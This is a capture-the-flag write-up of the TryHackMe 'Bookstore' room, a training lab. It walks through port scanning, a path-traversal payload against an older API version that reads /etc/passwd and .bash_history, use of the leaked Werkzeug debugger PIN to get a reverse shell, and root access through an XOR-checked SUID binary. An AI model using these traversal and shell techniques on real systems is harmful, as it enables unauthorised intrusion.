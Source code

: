 ```yaml
---
title: Tryhackme-Bookstore
tags: [Api, security, Tryhackme, Cybersecurity, CTF]
layout: post
---  
```



Bookstore is medium rated room in tryhackme where attacker can test their api hacking skills. It contains some basic api vulnerability by leveraging which attacker had to gain full access to the machine. Let's start.
## Initial recon

The first thing we do is run nmap against the target ip and find out which ports are opened.
`nmap 10.10.247.2 -sC -sV`. The output of the command is shown below.
```
┌──(samsec㉿kali)-[/usr/share/dict]
└─$ nmap 10.10.247.2 -sC -sV    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 18:06 +0545
Nmap scan report for 10.10.247.2 (10.10.247.2)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Book Store
|_http-server-header: Apache/2.4.29 (Ubuntu)
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-title: Home
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.13 seconds
```

We see 3 ports are opened. Webserver is running on port 80, we have ssh opening and some api running in port 5000. Let's check out the web app first on port 80.

## Web App Enumeration

There's nothing much in the website. We see normal interface and no much endpoints rather than a single login page. We can't signup or create the users also. 
![Image](/assets/img/bookstore/website.png)
![Image](/assets/img/bookstore/login.png)

So, let's head towards enumerating API on port 5000.

## API enumeration

We see the foxy REST API running. What can we do further if we don't have API documentation? Nothing. It's time to do directory bruteforcing or we can check out robots.txt file and find out the disallowed entry for /api.
![Image](/assets/img/bookstore/robots.png)

When viewing the /api endpoints , now we see the documentation for API. We see some endpoints that the API accepts. We view all the available endpoints manually and at the same time we keep our burp running on background so that we can analyze the endpoints further.![Image](/assets/img/bookstore/documentation.png)

When viewing all the endpoints, I didn't find anything interesting. After roaming around the website further, I check the js files. When viewing /api.js file, there is something left over in the comment. ![Image](/assets/img/bookstore/comment.png)

Guess what??. There was LFI vulnerability in the previous version of API ie. v1. Now they updated the version to v2 patching the previous vulnerability.
When you are testing the API, it's always a good practice to look around for Improper Assets Management(changing the version of the api to lower and seeing how the api reacts to the older version). I tried to figure out the changes in older version long time but couldn't move further. I was stuck for a moment. I get lost because  i kept testing the `10.10.247.2:5000/api/v2/resources/books/random4` , trying to find out it accepts any parameters in the older version by which we can find out the LFI issues. This endpoint was safe cause the older version ie. `10.10.247.2:5000/api/v1/resources/books/random4` was removed and replaced with the new one. 
After hanging for a minute, I read the documentation thoroughly and i noticed something. 
![Image](/assets/img/bookstore/interesting.png)

2 or more??? What does that means?? Does this endpoint accepts some other parameters too. To my surprise it did. Running Param Miner on this endpoint reveal `show` parameter. If you append this parameter with value `../../../../../etc/passwd` you get same results as with 2 parameters. But there was vulnerability in previous version right?? So let's check the older version and BOOM!! We get the /etc/passwd of the server. 

![Image](/assets/img/bookstore/lfi.png)

We found the LFI issue in the API. What's next??

## Gaining access to the machine

I tried to read the .ssh/id_rsa if any cause i know there is ssh opened but this  lead to nowhere. When directory bruteforcing the website, I found the endpoint `/console` . And also there is commented line in login.html that says the debugger pin is in the .bash_history file. 
![Image](/assets/img/bookstore/debugger.png)

So, the goal is to get the pin using LFI in the .bash_history file and accessing the /console using that pin. 
![Image](/assets/img/bookstore/pin.png)

Access the console using the pin and run the reverse shell on the console.
You can get the reverse shell payload from `revshells.com` . Set the netcat listener and run the payload and get the reverse shell. 
```
┌──(samsec㉿kali)-[~]
└─$ nc -lnvp 4444            
listening on [any] 4444 ...
connect to [10.17.70.133] from (UNKNOWN) [10.10.247.2] 49434
$ whoami
whoami
sid
$ 

```

You can clean up the tty shell with following lines of command. 
```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty; pty.spawn("/bin/bash")'

hit CTRL+Z to run the process in backgroung and run below command
stty raw -echo && fg

the process will run in foreground after this and type reset
and type xterm,
for colorful shell export the term variable. 

export TERM=xterm
You will get fully interactive shell.

```

You can get the user flag easily by doing `cat user.txt`

Now it's time to get the root flag.

## Privilege Escalation

There is binary file having suid bit set called `tryharder`. When running the file, we are prompted to enter the magic number and if that'st correct , we will get the shell, I guess?
```
sid@bookstore:~$ ls
api.py  api-up.sh  books.db  try-harder  user.txt
sid@bookstore:~$ ./try-harder 
What's The Magic Number?!
123
Incorrect Try Harder
sid@bookstore:~$
```

Let's do some reversing using Ghidra. Download the binary to the local machine by hosting python server in the machine and wget to download it.
```
┌──(samsec㉿kali)-[~]
└─$ cd /tmp
                                                                                                                                                  
┌──(samsec㉿kali)-[/tmp]
└─$ wget 10.10.247.2:8000/try-harder
--2023-10-11 19:40:36--  http://10.10.247.2:8000/try-harder
Connecting to 10.10.247.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8488 (8.3K) [application/octet-stream]
Saving to: ‘try-harder’

try-harder                           100%[====================================================================>]   8.29K  --.-KB/s    in 0s      

2023-10-11 19:40:37 (176 MB/s) - ‘try-harder’ saved [8488/8488]
```

When decompiling the binary in Ghidra we see the function as:
![Image](/assets/img/bookstore/ghidra.png)

That's it. The goal is to find out the number a where `a ^ 23987 ^4374 = 1573724660` where `^` represents XOR and I've decoded the hex value into decimal. On doing so we get the value of a which is the number we need to input in order to get the shell.
```
┌──(samsec㉿kali)-[/tmp]
└─$ python3 
Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5db3
23987
>>> 0x1116
4374
>>> 0x5dcd21f4
1573724660
>>> 23987 ^ 4374 ^ 1573724660
1573743953
>>> 

```

We get the shell as root. Now we completed the room. ![[root.png]]

It was little bit overwhelming to get the initial foothold and root was a bit messy for me because i was new to Ghidra when doing this room. Anyway this room teach  me lot more stuffs about about API enumeration and reverse engineering. That much for this blog.
